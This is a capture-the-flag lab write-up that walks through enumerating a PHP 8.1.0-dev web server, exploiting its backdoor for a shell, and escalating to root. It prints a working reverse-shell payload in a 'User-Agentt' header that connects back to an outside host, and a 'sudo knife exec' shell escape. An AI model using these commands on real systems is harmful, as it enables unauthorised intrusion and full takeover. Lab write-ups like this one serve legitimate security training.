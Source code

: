 ## Phase 1: Enumeration

As always we start off with an nmap scan:

![](/images/nmap.png)

Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there.
> Checking the source code with Ctrl+U doesn't show anything interesting either, however
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:

![](/images/request.png)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 

![](/images/user.png)

I then navigated to home/james and used ```cat user.txt``` to obtain the user flag.

![](/images/userblur.png)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!

![](images/sudocmd.png)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.

After that I navigated to /root and used ```cat root.txt``` to get root flag.

![](/images/rootflagblur.png)

And the box is complete!
